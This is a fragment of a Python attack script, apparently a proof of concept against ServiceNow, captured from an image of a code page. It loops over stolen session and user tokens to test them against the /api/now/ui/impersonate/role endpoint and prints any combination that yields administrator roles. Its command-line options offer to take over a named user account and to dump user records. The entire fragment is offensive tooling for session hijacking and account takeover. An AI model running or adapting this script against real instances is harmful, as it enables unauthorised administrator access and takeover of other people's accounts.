 ```python
    print("Testing access to the /api/now/ui/impersonate/role endpoint")
    is_valid = False
    for glide_session_stores in glide_session_stores_arr:
        for usertoken in usertoken_arr:
            for glide_user_activity in glide_user_activity_arr:
                if is_valid:
                    break
                try:
                    session_token = glide_session_stores.strip("id=")
                    user_token = usertoken[11:]
                    activity_token = glide_user_activity.decode('ascii')

                    status_code, response = validation(session_token, user_token, activity_token)
                    if status_code == 201:
                        print("Success! Potential Administrator Credentials!")
                        print("\tglide_session_stores: " + str(session_token))
                        print("\tX-Usertoken: " + str(user_token))
                        print("\tglide_user_activity: " + str(activity_token))
                        print("\n")
                        active_roles = response['result']['activeRoles']
                        print("\tActive Roles: " + str(active_roles))
                        is_valid = True
                    else:
                        print(".",)
                except Exception as e:
                    print(e)

if __name__ == "__main__":
    banner()
    parser = argparse.ArgumentParser()
    parser.add_argument('-n', type=str, required=False, help="Provide a user account to takeover.")
    parser.add_argument('-d', '--dump', action='store_true')
    args = parser.parse_args()
    if args.dump:
        for i in range(1, 10):
            get_users(xrange=i)
    if args.n:
        main()
```